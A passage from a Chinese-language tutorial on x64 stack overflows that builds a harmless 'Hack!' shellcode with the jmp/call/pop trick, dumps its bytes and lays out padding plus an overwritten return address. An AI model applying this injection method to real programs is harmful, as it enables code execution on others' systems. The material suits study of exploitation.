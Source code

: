 这段程序和第一节的 Hello-x64 基本一样，不同之处在于巧妙的利用了 _**call BEGIN 和 pop rsi**_ 获得了字符串 “Hack” 的地址、并保存到 rsi 中。将以上代码保存为 shell.asm ，编译运行一下：

```shell
$ nasm -f elf64 shell.asm
$ ld -s -o shell shell.o
$ ./shell
Hack!
```

然后用 objdump 程序提取出机器码：

```
$ objdump -d shell -M intel
...
0000000000400080 <.text>:
  400080:   eb 1e                   jmp    0x4000a0
  400082:   b8 01 00 00 00          mov    eax,0x1
  400087:   bf 01 00 00 00          mov    edi,0x1
  40008c:   5e                      pop    rsi
  40008d:   ba 05 00 00 00          mov    edx,0x5
  400092:   0f 05                   syscall 
  400094:   b8 3c 00 00 00          mov    eax,0x3c
  400099:   bf 00 00 00 00          mov    edi,0x0
  40009e:   0f 05                   syscall 
  4000a0:   e8 dd ff ff ff          call   0x400082
  4000a5:   48 61                   rex.W (bad) 
  4000a7:   63 6b 21                movsxd ebp,DWORD PTR [rbx+0x21]
```

以上机器码一共 42 个字节， name 到 ret rip 之间一共 72 个字节，因此还需要补 30 个字节，最后填上 name 的起始地址 0x7fffffffe100 。 main 函数执行到 ret 命令时，栈上的数据应该是下面这个样子的（注意最后的 name 起始地址需要按 _**小端顺序**_ 保存）：

```
                                        Stack
 name(0x7fffffffe100)--> +---------------------------------+ <---+
                         |  eb 1e           (jmp END)      |     |
                BEGIN--> +---------------------------------+     |
                         |  b8 01 00 00 00  (mov eax,0x1)  |     |
                         +---------------------------------+     |
                         |  bf 01 00 00 00  (mov edi,0x1)  |     |
                         +---------------------------------+     |
                         |  5e              (pop rsi)      |     |
                         +---------------------------------+     |
                         |  ba 05 00 00 00  (mov edx,0x5)  |     |
                         +---------------------------------+     |
                         |  0f 05           (syscall)      |     |
                         +---------------------------------+     |
                         |  b8 3c 00 00 00  (mov eax,0x3c) |     |
                         +---------------------------------+     |
                         |  bf 00 00 00 00  (mov edi,0x0)  |     |
                         +---------------------------------+     |
                         |  0f 05           (syscall)      |     |
                   END-> +---------------------------------+     |
                         |  e8 dd ff ff ff  (call BEGIN)   |     |
                         +---------------------------------+     |
                         |  48 61 63 6b 21  ("Hack!")      |     |
     (0x7fffffffe12a)--> +---------------------------------+     |
                         |  "\x00"*30                      |     |
  rsp(0x7fffffffe148)--> +---------------------------------+     |
                         |  00 e1 ff ff ff 7f 00 00        | ----+
                         +---------------------------------+
```
